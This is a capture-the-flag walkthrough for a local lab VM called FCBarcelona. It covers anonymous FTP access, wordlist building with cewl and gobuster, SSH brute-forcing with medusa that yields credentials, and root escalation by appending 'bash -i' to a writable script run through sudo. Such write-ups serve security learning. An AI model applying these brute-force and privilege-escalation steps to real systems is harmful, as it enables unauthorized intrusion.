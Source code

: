 # Challenge MAchien FCBarcelona 

## Intro : 
machine : a VM deployed locally 
# Recon 
nmap 
'''shell 
cat result 
'''
## open ports 
 
80 : web port : gobuster , nothing special 

nothing to find here :( :( 
 
445 : open  netbios-ssn Samba 445/tcp open  microsoft-ds   139:  open  netbios-ssn

nothing worked here , even we try the metasploit 

21 : FTP port 

here let's try to connect over FTP 
''shell
ftp ipaddress
'''
default login 
anonymous 
and bow it's work 

let's see what we can do 
'''shell
ls
get notice.txt
'''
here we found a file named notice.txt 
let's what's inside : 

hi, as you know, this box is about brute force, as the suggestion says. As long as you don't get to root, keep guessing and applying brute force and brute force. Let's say for example, in our web application we like to keep things under a staduim that we love so much in Barcelona. well you have the list of staduims try to find what you are looking for;)
en spanish language but we translated it with Google hahahah h 


so the content of this file tell us to bruteforce the login with ssh connection 



22 : ssh port 

how how let's try bruteforcing the login with the stadium list 

tool we can bruteforce with : 
### hydra or graphic hydra 
### Ncrack brute force 
### Medusa brute force 
### metasploit bruteforce 


##### So let's make our wordlist from the webpage in the machine by : 

'''shell
cewl ipaddress new_wordlist
'''

then let's fetch the directories on the web 

'''shell
gobuster -dir -u http://ipaddress -w /path/new_wordlist 
'''

and bow we found something maybe useful 

a directory named CampNou


then let's see what's inside :
we found a list of players 

So let's make a new wordlist with these players names ; to bruteforce the ssh login

'''shell
cewl http://ipaddress/CampNou
'''

here we created our wordlist , let's bruteforce the ssh login 
i choosed medusa because Medusa is intended to be speedy , massively parallel

medusa -u /wordlist1 -P  /wordlist  -M ssh -h ipaddress


login Ansu
password Fati

Linux FCBarcelona 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64
⠀⠀⣀⣀⣀⣀⣠⠴⠚⠦⣄⣀⣀⣀⣀⣠⠴⠓⠦⣄⣀⣀⣀⣀⠀⠀
⠀⠸⡁⠈⠉⠁⠀⣴⣾⣦⠀⠉⠉⠉⣉⡄⢰⡇⢠⡄⢨⣉⠀⢈⠇⠀
⠀⠀⢳⡀⢀⣀⣀⣿⣿⣿⣀⣀⣀⠀⣿⡇⢸⡇⢸⡇⢸⣿⢠⡟⠀⠀
⠀⠀⠘⡇⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⣿⡇⢸⡇⢸⡇⢸⣿⢸⠁⠀⠀
⠀⠀⢸⡇⠈⠉⠉⣿⣿⣿⠉⠉⠁⠀⣿⡇⢸⡇⢸⡇⢸⣿⢸⡆⠀⠀
⠀⢀⡞⠀⠀⠀⠀⠛⠛⠛⠀⠀⠀⠀⠛⠃⠘⠃⠘⠃⠘⠛⠀⢳⡀⠀
⣠⠞⢀⣾⣿⣿⡇⠀⠀⠀⢸⣿⣿⣿⣿⡇⠀⠀⠀⢸⣿⣿⣷⡀⠳⣄
⠙⢦⠈⣿⣿⣿⡇⠀⠀⠀⢸⡿⢿⠿⢿⡇⠀⠀⠀⢸⣿⣿⣿⠁⡴⠋
⠀⢸⠀⣿⣿⣿⡇⠀⠀⢠⢻⠁⢘⠉⠑⢿⡀⠀⠀FC BARCELONA <3
⠀⠸⡄⢻⣿⣿⡇⠀⠀⠘⡬⠷⠔⠉⡷⢤⠃⠀⠀⢸⣿⣿⡟⢠⠇⠀
⠀⠀⢳⡈⢻⣿⡇⠀⠀⠀⢹⣶⣦⣩⣴⡏⠀⠀⠀⢸⣿⠟⢁⡞⠀⠀
⠀⠀⠀⠙⢦⡉⠃⠀⠀⠀⢸⣿⣿⣿⣿⡇⠀⠀⠀⠘⢉⡴⠋⠀⠀⠀
⠀⠀⠀⠀⠀⠉⠓⠦⣤⣀⣈⡙⠻⠟⢋⣁⣀⣤⠴⠚⠉⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠙⢦⡴⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗  
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝

Last login: Sun Nov 15 20:53:18 2020
Ansu@FCBarcelona:~$ 


let's see what's inside the home directory 
and bow we found the user flag inside user.txt 
But u need understand spanish language hhhhhhhh 

hola campeón
 espero que tu lesión esté mejorando. 
bueno, si estás aquí, significa que tienes la bandera de usuario que es "SergiRobertoIsABadPlayer". 
También quiero recordarte que uses el recordatorio de fecha para la revisión de tu rodilla en el hospital. 
mantente a salvo y vuelve pronto <3


---

Here My friend we are close to own the system
 
 here we need to found a priv escalation to own the root 

 so let's search any script runnable as root 
 '''shell
 Ansu@FCBarcelona:~$ sudo -l
[sudo] password for Ansu: 
Matching Defaults entries for Ansu on FcBarcelona:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User Ansu may run the following commands on FcBarcelona:
    (ALL : ALL) /root/reminder.sh
    '''

    Nice we have a file named reminder.sh 

## Privilege escalation

let's  run the LinEnum:
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

so here we found a fiel  /var/datemaker.sh
we can change on it 

so let's do it 
'''shell 
echo "bash -i" >> /var/datemaker.sh
'''
then let's run the file in the root repo 

'''shell
sudo ./root/reminder.sh
[sudo] password for Ansu: 
la fecha de revisión de su rodilla es en:
20 december 2020
root@FCBarcelona:/#
'''
and wow we are root now 
and u can got your flag 

--- 
thanks!
